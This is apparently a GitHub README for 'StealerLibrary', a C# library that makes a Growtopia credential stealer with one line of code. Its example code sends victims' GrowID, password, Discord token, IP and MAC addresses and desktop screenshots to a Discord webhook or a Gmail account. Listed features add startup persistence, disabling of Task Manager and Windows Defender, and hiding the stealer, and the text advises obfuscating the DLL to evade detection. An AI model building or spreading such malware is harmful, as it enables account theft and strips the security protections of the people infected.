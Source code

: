 # StealerLibrary
Growtopia (Save.dat) Stealer Library that let you to write a stealer with 1 line of code.
#### ⭐ If you like the project, feel free to star the project ⭐

## Compiled Version: [All Releases](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't. Use obfuscator for that.

## Example Usage : 

```csharp
using StealerLibrary;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            //Discord Webhook Method
            Library.DiscordWebhookUrl = "https://discord.com/api/webhooks/837357865609199646/4wIlD35Q9QNdLGEfh9hWeoQX9eAMxCBqDQcMmIBBvAtoFTjDlJAzkMaxyc1kcxaY4TpP";
            Library.WebhookName = "StealerLibrary"; //Optional
            Library.WebhookProfilePictureUrl = ""; //Optional
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.DiscordStealer(true, true, true, true, true, true, true, true, true);
            
            //Gmail Method
            Library.Gmail = "example@gmail.com";
            Library.GmailPassword = "Example12345.";
            Library.SMTPServer = "smtp.gmail.com"; //Default
            Library.SMTPPort = 587; //Default
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.GmailStealer(true, true, true, true, true, true, true, true, true);
            
            //Run On Startup, Disable Task Manager, Corrupt Growtopia, Hide Stealer, Disable Windows Defender
            Library.Functions(true, false, true, false, false);
            
            //Trace Save.dat for Discord/Gmail
            Library.TraceSaveDat(true, false);
        }
    }
}
```

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)
### V3
- Gmail Method (Customizable: True/False)
- Trace Save.dat (Customizable: True/False)
- Run On Startup (Customizable: True/False)
- Disable Task Manager (Customizable: True/False)
- Corrupt Growtopia (Customizable: True/False)
- Hide Stealer (Customizable: True/False)
- Disable Windows Defender (Customizable: True/False)

<img src="http://anarchy.5v.pl/example2.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/StealerLibrary/blob/main/LICENSE) file for details.
